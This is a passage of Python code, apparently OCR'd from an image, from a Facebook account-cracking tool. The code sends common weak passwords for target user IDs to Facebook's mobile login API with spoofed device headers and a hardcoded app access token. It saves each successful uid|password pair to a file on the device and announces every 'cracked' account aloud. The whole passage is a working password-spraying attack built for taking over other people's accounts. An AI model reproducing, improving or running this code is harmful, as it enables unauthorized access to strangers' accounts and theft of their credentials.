            'X-FB-Connection-Type': 'MOBILE.LTE', 
            'X-Tigon-Is-Retry': 'False', 
            'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62', 
            'x-fb-device-group': '5120', 
            'X-FB-Friendly-Name': 'ViewerReactionsMutation', 
            'X-FB-Request-Analytics-Tags': 'graphservice', 
            'X-FB-HTTP-Engine': 'Liger', 
            'X-FB-Client-IP': 'True', 
            'X-FB-Server-Cluster': 'True', 
            'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62', 
            'Content-Length': '706'}
            url = "https://b-graph.facebook.com/auth/login"
            rp = requests.post(url,data=data,headers=head,allow_redirects=False,verify=True).json()
            if "session_key" in rp:            	
                print(f'\r\r\r\r\r\33[38;5;37m[\x1b[38;5;46mALim\033[1;97m-\x1b[38;5;46mOK\33[38;5;37m] \x1b[38;5;46m{uid} \033[1;97m● \x1b[38;5;46m{pw}\033[1;97m');os.system('espeak -a 300 " Cracked Ok id,"')
                open("/sdcard/ALi-M1-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                cps.append(uid)
                break
            elif "www.facebook.com" in rp['error']['message']:
                print(f'\r\r\r\r\r\33[38;5;37m[\x1b[38;5;46mALi\033[1;97m-\x1b[38;5;46mOK\33[38;5;37m] \x1b[38;5;46m{uid} \033[1;97m● \x1b[38;5;46m{pw}\033[1;97m');os.system('espeak -a 300 " Cracked Ok id,"')
                open("/sdcard/ALi-M1-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            else:continue
        loop+=1
    except Exception as e:time.sleep(30)
def login3(uid):
    global oks,loop,cps
    Session=requests.session()
    try:
        sys.stdout.write(f'\r\r\33[38;5;37m[\x1b[38;5;46mALi\33[38;5;37m-\x1b[38;5;46mB3\33[38;5;37m]\033[1;97m-\33[38;5;37m[\033[1;97m{loop}\33[38;5;37m]\033[1;97m-\33[38;5;37m[\x1b[38;5;46mOK\33[38;5;160m/\x1b[38;5;208mCP\33[38;5;37m]\033[1;97m-\33[38;5;37m[\x1b[38;5;46m{len(oks)}\33[38;5;160m/\x1b[38;5;208m{len(cps)}\33[38;5;37m]')
        sys.stdout.flush()
        ua = random.choice(ugen)
        ua = windows()
        for pw in ["123456","1234567","12345678","123456789","111222"]:
            data = {'adid':str(uuid.uuid4()),
            'format': 'json',
            'device_id':str(uuid.uuid4()),
            'cpl': 'true',
            'family_device_id':str(uuid.uuid4()),
            'credentials_type': 'device_based_login_password', 
            'error_detail_type': 'button_with_disabled', 
            'source': 'device_based_login', 
            'email':str(uid),
            'password':str(pw),
            'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32', 
            'generate_session_cookies': '1', 
            'meta_inf_fbmeta': '', 
            'advertiser_id':str(uuid.uuid4()),
            'currently_logged_in_userid': '0', 
            'locale': 'en_US',
            'client_country_code': 'US', 
            'method': 'auth.login', 
            'fb_api_req_friendly_name': 'authenticate', 
            'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler', 
            'api_key': '882a8490361da98702bf97a021ddc14d'}
            head = {'User-Agent': ua,
            'Content-Type': 'application/x-www-form-urlencoded', 
